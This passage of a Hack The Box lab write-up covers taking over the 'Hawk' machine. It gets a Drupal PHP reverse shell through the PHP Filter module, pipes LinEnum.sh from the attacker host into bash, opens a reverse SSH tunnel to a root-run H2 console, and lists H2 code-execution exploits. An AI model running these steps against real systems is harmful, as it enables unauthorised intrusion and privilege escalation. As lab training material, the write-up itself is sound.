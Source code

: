 There is a password for a portal and this portal is probably one of the HTTP services.

## Checking HTTP (Port 80)

On the web page on port 80 it shows a **Drupal** login page, which is a Content-Management-System.

![Drupal login page](https://kyuu-ji.github.io/htb-write-up/hawk/hawk_web-1.png)

The password found out earlier is working and with the username _admin_.

When looking at the _Modules_ there is a PHP module that allows PHP code to be executed. It can be activated by ticking it on _PHP Filter_.
After enabling it, uploading PHP files is possible.
```markdown
Content --> Add Content --> Article / Basic Page --> Text Format: PHP code
```

Lets upload a PHP reverse shell into it:

![Drupal upload PHP](https://kyuu-ji.github.io/htb-write-up/hawk/hawk_web-2.png)

After clicking on _Preview_ it hangs, but the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get any attack surface on the box, it is good to execute any **Linux Enumeration Script**.
```markdown
curl 10.10.14.6/LinEnum.sh | bash
```

In the list of processes runs _/usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar_ as root.
This is also the process found with Nmap that runs on port 8082, but when accessing it with a browser it says, that it does not allow remote connections:
```markdown
H2 Console

Sorry, remote connections ('webAllowOthers') are disabled on this server.
```

By creating an SSH tunnel on the box, we are able to access the **H2 console** locally:
```markdown
ssh -R 9002:127.0.0.1:8082 testuser@10.10.14.6
```

Now the service runs on my local client on port 9002:

![H2 Console](https://kyuu-ji.github.io/htb-write-up/hawk/hawk_h2-1.png)

### Exploiting H2 Console

When looking for exploits for **H2** there is an **Arbitrary Code Execution** vulnerability found:
```markdown
searchsploit h2
```
```markdown
H2 Database - 'Alias' Arbitrary Code Execution
H2 Database 1.4.196 - Remote Code Execution
H2 Database 1.4.197 - Information Disclosure
```
